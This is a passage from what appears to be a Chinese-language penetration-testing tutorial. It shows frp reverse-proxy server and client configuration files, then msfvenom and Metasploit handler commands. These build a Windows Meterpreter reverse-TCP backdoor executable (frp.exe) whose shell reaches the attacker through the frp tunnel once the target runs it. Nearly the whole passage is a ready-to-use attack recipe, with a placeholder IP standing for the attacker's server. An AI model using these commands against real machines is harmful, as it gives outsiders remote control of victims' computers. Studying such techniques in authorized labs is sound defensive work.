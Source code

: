        ``` shell
       [common]
       
       bind_port = 7000
       ```

     - 启动服务端：

       ``` shell
       ./frps -c ./frps.ini
       ```

   - 控制端-下载-解压-修改-启动

     - 控制端修改配置文件frpc.ini：

       ``` shell
       [common]
       
       server_addr = IP
       
       server_port = 7000        #frpc工作端口，必须和上面frps保持一致
       
       [ssh]
       
       type = tcp
       
       local_ip = 127.0.0.1
       
       local_port = 5555          #转发给本机的5555
       
       remote_port = 6000         #服务端用6000端口转发给本机
       ```

     - 启动客户端：

       ``` shell
        ./frpc -c ./frpc.ini
       ```

     - msf生成后门程序

       ``` shell
       msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=6000 -f exe -o frp.exe
       
       use exploit/multi/handler
       
       set payload windows/meterpreter/reverse_tcp
       
       set LHOST 127.0.0.1
       
       set LPORT 5555
       
       exploit
       ```

   - 靶机运行frp.exe即可

